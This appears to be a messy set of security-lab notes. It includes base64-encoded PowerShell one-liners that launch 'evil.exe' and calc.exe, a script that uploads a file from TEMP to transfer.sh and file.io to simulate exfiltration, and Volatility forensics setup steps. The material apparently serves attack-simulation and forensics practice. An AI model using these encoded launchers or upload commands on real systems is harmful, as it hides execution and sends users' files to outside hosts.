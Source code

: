 powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACcAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABlAHYAaQBsAC4AZQB4AGUAJwA=
powershell -enc UwB0AGEAcgB0AC0AUABSAE8AQwBFAFMAUwAgACcAYwBhAGwAYwAuAGUAeABlACcA$$

$path = "$env:TEMP\important.txt"

Set-Content -Path $path -Value "Top secret info from Zakariae's lab"

Invoke-RestMethod -Uri "https://transfer.sh/important.txt" -Method Put -InFile $path -OutFile "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"




$response = Invoke-RestMethod -Uri "https://file.io" -Method Post -InFile $path -ContentType "multipart/form-data"

$response.link | Out-File "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"



_______
volqtility

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

pip3 install -r requirements.txt

python3 vol.py -h


8888888888888


sudo apt install python3-venv

python3 -m venv venv

source venv/bin/activate

pip install -r requirements.txt


